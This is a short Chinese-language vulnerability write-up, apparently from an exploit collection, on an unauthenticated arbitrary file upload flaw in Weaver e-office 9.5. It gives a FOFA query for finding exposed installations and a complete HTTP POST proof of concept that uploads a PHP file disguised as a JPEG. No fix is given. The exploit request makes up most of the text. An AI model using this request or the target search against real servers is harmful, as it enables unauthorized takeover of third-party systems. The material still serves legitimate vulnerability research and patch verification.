 ## 泛微e-office-mobile_upload_save存在任意文件上传漏洞

 泛微e-office 9.5版本，源文件 App/Ajax/ajax.php?action=mobile_upload_save 的一些未知功能存在问题。 参数 upload_quwan 的操作导致不受限制的上传，未经身份验证的恶意攻击者通过上传恶意文件，从而获取目标服务器的控制权限。

## fofa

```
app="泛微-EOffice"
```

## poc

```
POST /E-mobile/App/Ajax/ajax.php?action=mobile_upload_save  HTTP/1.1
Host: your-ip
Content-Length: 352
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydRVCGWq4Cx3Sq6tt
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
 
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="upload_quwan"; filename="1.php."
Content-Type: image/jpeg
 
<?php phpinfo();?>
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream
 
 
------WebKitFormBoundarydRVCGWq4Cx3Sq6tt--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406131040611.png)

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406131040672.png)